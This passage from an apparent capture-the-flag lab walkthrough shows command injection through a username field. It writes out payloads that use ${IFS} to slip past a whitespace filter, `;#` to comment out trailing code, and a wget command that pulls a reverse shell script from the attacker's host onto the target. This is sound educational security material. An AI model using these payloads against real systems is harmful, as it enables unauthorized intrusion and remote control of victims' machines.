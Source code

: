 It appears to be executing something like `ssh <hostname>:<username>` and not giving the username input leads into that error.

Maybe we can concatenate code to make the target execute it? Let’s try it writing in the input `;ping -c1 10.10.14.7` and listening for icmp in our machine to see if the code gets executed: `tcpdump -i tun0 icmp -n`

<figure><img src="../../.gitbook/assets/Pasted image 20231013170314.png" alt=""><figcaption></figcaption></figure>

Apparently the input cannot contain whitespaces, and URL encoding them don’t help. We can try replacing the spaces with `${IFS}` that will be interpreted by the bash as a space. So, the username input will look like this: `;ping${IFS}-c1${IFS}10.10.14.7`

<figure><img src="../../.gitbook/assets/Pasted image 20231013171105.png" alt=""><figcaption></figcaption></figure>

Now the input seems right, but we keep getting an error. Maybe the command is not `ssh <hosname>:<username>` and it’s something like `ssh <hostname>:<username> flags and more code`. If this is the case, maybe we can comment everything at the right of out input by adding `;#` to the input. So the username input would be: `;ping${IFS}-c1${IFS}10.10.14.7;#`

Yeah! Our machine received a ping from the target machine, so we can execute commands in the target machine. Let’s try to obtain a **reverse shell**:

`;wget${IFS}http://10.10.14.7/revshell.sh${IFS}-P${IFS}/tmp;#`

<figure><img src="../../.gitbook/assets/Pasted image 20231013173415.png" alt=""><figcaption></figcaption></figure>
